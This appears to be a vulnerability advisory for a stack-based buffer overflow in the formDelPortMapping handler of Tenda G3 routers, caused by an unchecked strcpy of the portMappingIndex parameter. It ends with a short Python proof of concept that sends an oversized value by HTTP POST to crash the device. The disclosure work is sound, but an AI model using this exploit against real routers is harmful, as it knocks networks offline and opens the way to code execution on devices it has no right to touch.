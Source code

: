 # Tenda G3 formDelPortMapping
### Overview
vendor: Tenda

product: G3

version: <= G3V3.0br_V15.11.0.17

type: Stack Overflow
### Vulnerability Description
Tenda G3 G3V3.0br_V15.11.0.17 were discovered to contain a stack overflow in the formDelPortMapping function.
### Vulnerability details
Stack-based buffer overflow in function formDelPortMapping on Tenda G3 before G3V3.0br_V15.11.0.17 devices allow remote attackers to cause a denial of service or remote code execution via a crafted parameter for the http post request.

In the function formDelPortMapping line 14, it reads in a user-provided parameter, and the variable portMappingIndex is passed to the strcpy function without any length check, which may overflow the stack-based buffer. As a result, by requesting the page, an attacker can easily execute a denial of service attack or remote code execution.
![](images/formDelPortMapping-1.png)
![](images/formDelPortMapping-2.png)

### POC
```python
import requests
ip = '192.168.0.1'
url = f'http://{ip}/goform/delPortMapping'
payload = {
    "portMappingIndex": 'a' * 1000
}

res = requests.post(url=url, data=payload)
print(res.content)
```
